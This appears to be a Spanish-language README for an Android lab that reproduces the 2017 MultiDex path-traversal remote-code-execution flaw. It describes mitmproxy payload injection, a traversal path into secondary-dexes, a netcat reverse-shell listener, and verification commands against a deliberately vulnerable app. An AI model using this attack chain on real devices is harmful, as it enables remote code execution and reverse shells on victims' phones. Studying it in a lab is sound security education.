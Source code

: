 # RCE Lab - Vulnerabilidad MultiDex 2017

## ¿Qué es esta vulnerabilidad?

Esta vulnerabilidad fue descubierta por **NowSecure en 2017** y afecta aplicaciones Android que utilizan MultiDex 1.0.1. El ataque combina dos técnicas:

1. **Path Traversal**: Archivos ZIP maliciosos que pueden escribir archivos fuera del directorio esperado usando `../../../../`
2. **MultiDex Auto-loading**: MultiDex 1.0.1 carga automáticamente archivos DEX desde el directorio `secondary-dexes`

**Referencia original**: [NowSecure Blog - Android Multidex RCE](https://www.nowsecure.com/blog/2017/03/22/multidex-android-apps-remote-code-execution/)

## ¿Cómo funciona el ataque?

1. La aplicación descarga archivos ZIP de URLs remotas
2. Un proxy malicioso (mitmproxy) intercepta las descargas y reemplaza el ZIP con uno malicioso
3. El ZIP malicioso contiene un archivo DEX en una ruta con path traversal: `../../../../data/data/com.app.lab.rce/code_cache/secondary-dexes/classes2.zip`
4. MultiDex 1.0.1 detecta automáticamente el archivo DEX y lo carga
5. El código malicioso se ejecuta inmediatamente (static initializer)

## Requisitos

- Android SDK instalado
- Emulador Android (API 21+)
- Python 3 con mitmproxy: `pip install mitmproxy`
- ADB configurado

## Pasos para replicar

### 1. Construir el payload malicioso

```bash
./build_payload.sh
```

Esto crea `exploit_bundle.zip` con el DEX malicioso y path traversal.

### 2. Compilar e instalar la aplicación vulnerable

```bash
./gradlew assembleDebug
adb install -r app/build/outputs/apk/debug/app-debug.apk
```

### 3. Configurar el proxy malicioso

```bash
# Iniciar mitmproxy en background
mitmdump -s mitmproxy/inject_payload.py -p 8090 &

# Configurar proxy en el emulador
adb shell settings put global http_proxy 10.0.2.2:8090
```

### 4. Preparar listener para reverse shell

```bash
nc -l 4444 &
```

### 5. Ejecutar el ataque

```bash
# Lanzar la aplicación
adb shell am start -n com.app.lab.rce/.MainActivity

# Monitorear logs del exploit
adb logcat | grep -E "(RCE|AdUpdateService)"
```

## ¿Cómo saber si funcionó?

### Indicadores visuales:

- **UI de la app**: Cambia de "SECURE" (verde) a "COMPROMISED" (rojo)

### Verificación técnica:

```bash
# Verificar archivo de evidencia
adb shell run-as com.app.lab.rce cat files/pwned.txt

# Verificar conexiones del reverse shell
lsof -i :4444
```

### Logs esperados:

```
RCE: Static initializer executed
RCE: Evidence file created successfully
RCE: Constructor executed - launching reverse shell
AdUpdateService: RCE executed
```

## Componentes del exploit

- **`AdUpdateService.kt`**: Descarga ZIPs cada 15 segundos y extrae con path traversal
- **`RCEApplication.kt`**: Configuración MultiDex vulnerable
- **`Shell.java`**: Payload que crea archivo de evidencia y reverse shell
- **`inject_payload.py`**: Proxy que intercepta y reemplaza descargas
- **`build_payload.sh`**: Script que construye el ZIP malicioso

## Funcionamiento automático

Una vez iniciada, la aplicación:

- Descarga archivos cada 15 segundos automáticamente
- El proxy intercepta y sirve el payload malicioso
- El exploit se ejecuta automáticamente sin intervención del usuario
- Cada ejecución crea nuevas conexiones de reverse shell

## Limpieza

Para resetear y probar desde cero:

```bash
# Limpiar datos de la app
adb shell pm clear com.app.lab.rce

# Detener procesos
pkill -f mitmdump && pkill -f nc
```

---

**⚠️ Nota**: Este proyecto es solo para fines educativos y demostración de vulnerabilidades de seguridad. No usar para actividades maliciosas.
